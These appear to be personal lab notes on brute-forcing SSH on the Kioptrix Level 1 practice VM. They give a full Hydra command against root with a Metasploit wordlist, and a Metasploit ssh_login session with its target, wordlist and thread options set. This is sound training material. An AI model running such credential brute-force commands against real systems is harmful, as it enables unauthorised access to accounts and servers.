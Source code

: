 **Exploit SSH**

**Exploit kioptrix level 1 (SSH)**

BRUTE FORE SSH<br/>
<br/>
SSH - try brute for or use defaults<br/>
1. Check for defaults<br/>
2. checking password str<br/>
3. do Blueteam pick it up<br/>
<br/>
HYDRA<br/>
<br/>
(NOTE) usr/share wordlist.. lost of wordlists<br/>
<br/>
syntax &gt;&gt;&gt; hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.247.129 -t 4 -V<br/>
hydra - calls program<br/>
-l - user to use/attack<br/>
root - attacking root<br/>
-P -wordlist<br/>
ssh&lt;ip&gt; - ip to connect to <br/>
-t number of threads for speed<br/>
-V verbosity, see what is getting through<br/>
<br/>
<img height="350" src="image 2.png" width="613"/><br/>
<br/>
<br/>
<br/>
<br/>
METASPLOIT<br/>
<br/>
<br/>
search ssh or ssh login<br/>
<br/>
<img height="300" src="image.png" width="556"/><br/>
<br/>
auxiliary scanner login &gt; login check scanner<br/>
auxiliary/scanner/ssh/ssh_login<br/>
<br/>
syntax &gt; use auxiliary/scanner/ssh/ssh_login<br/>
<br/>
Check options. lots of options<br/>
<br/>
msf6 &gt; use auxiliary/scanner/ssh/ssh_login<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; options<br/>
<br/>
Module options (auxiliary/scanner/ssh/ssh_login):<br/>
<br/>
 Name       Current Setting Required Description<br/>
 ----       --------------- -------- -----------<br/>
 BLANK_PASSWORDS  false      no    Try blank passwords for all users<br/>
 BRUTEFORCE_SPEED 5        yes    How fast to bruteforce, from 0 to 5<br/>
 DB_ALL_CREDS   false      no    Try each user/password couple stored in the current database<br/>
 DB_ALL_PASS    false      no    Add all passwords in the current database to the list<br/>
 DB_ALL_USERS   false      no    Add all users in the current database to the list<br/>
 DB_SKIP_EXISTING none       no    Skip existing credentials stored in the current database (Accepted: none, user, u<br/>
                        ser&amp;realm)<br/>
 PASSWORD              no    A specific password to authenticate with<br/>
 PASS_FILE             no    File containing passwords, one per line<br/>
 RHOSTS               yes    The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using<br/>
                        -Metasploit<br/>
 RPORT       22        yes    The target port<br/>
 STOP_ON_SUCCESS  false      yes    Stop guessing when a credential works for a host<br/>
 THREADS      1        yes    The number of concurrent threads (max one per host)<br/>
 USERNAME              no    A specific username to authenticate as<br/>
 USERPASS_FILE           no    File containing users and passwords separated by space, one pair per line<br/>
 USER_AS_PASS   false      no    Try the username as the password for all users<br/>
 USER_FILE             no    File containing usernames, one per line<br/>
 VERBOSE      false      yes    Whether to print output for all attempts<br/>
<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt<br/>
pass_file =&gt; /usr/share/wordlists/metasploit/unix_passwords.txt<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; set rhosts 192.168.247.129<br/>
rhosts =&gt; 192.168.247.129<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; option<br/>
[-] Unknown command: option<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; option<br/>
[-] Unknown command: option<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; options<br/>
<br/>
Module options (auxiliary/scanner/ssh/ssh_login):<br/>
<br/>
 Name       Current Setting           Required Description<br/>
 ----       ---------------           -------- -----------<br/>
 BLANK_PASSWORDS  false                no    Try blank passwords for all users<br/>
 BRUTEFORCE_SPEED 5                  yes    How fast to bruteforce, from 0 to 5<br/>
 DB_ALL_CREDS   false                no    Try each user/password couple stored in the current database<br/>
 DB_ALL_PASS    false                no    Add all passwords in the current database to the list<br/>
 DB_ALL_USERS   false                no    Add all users in the current database to the list<br/>
 DB_SKIP_EXISTING none                no    Skip existing credentials stored in the current database (Acce<br/>
                                 pted: none, user, user&amp;realm)<br/>
 PASSWORD                       no    A specific password to authenticate with<br/>
 PASS_FILE     /usr/share/wordlists/metasploit/un no    File containing passwords, one per line<br/>
          ix_passwords.txt<br/>
 RHOSTS      192.168.247.129           yes    The target host(s), see https://github.com/rapid7/metasploit-f<br/>
                                 ramework/wiki/Using-Metasploit<br/>
 RPORT       22                 yes    The target port<br/>
 STOP_ON_SUCCESS  false                yes    Stop guessing when a credential works for a host<br/>
 THREADS      1                  yes    The number of concurrent threads (max one per host)<br/>
 USERNAME                       no    A specific username to authenticate as<br/>
 USERPASS_FILE                     no    File containing users and passwords separated by space, one pa<br/>
                                 ir per line<br/>
 USER_AS_PASS   false                no    Try the username as the password for all users<br/>
 USER_FILE                       no    File containing usernames, one per line<br/>
 VERBOSE      false                yes    Whether to print output for all attempts<br/>
<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; set threads 10<br/>
threads =&gt; 10<br/>
msf6 auxiliary(scanner/ssh/ssh_login) &gt; set verbose true<br/>
verbose =&gt; true<br/>
<br/>
DONT FORGET SET USERNAME<br/>
<br/>
always double check options<br/>
<br/>
<img height="250" src="image 3.png" width="639"/><br/>
<br/>
From both scans, unlikely to have weak password that can be comprimised in a reasonble time on this machine. <br/>
<br/>

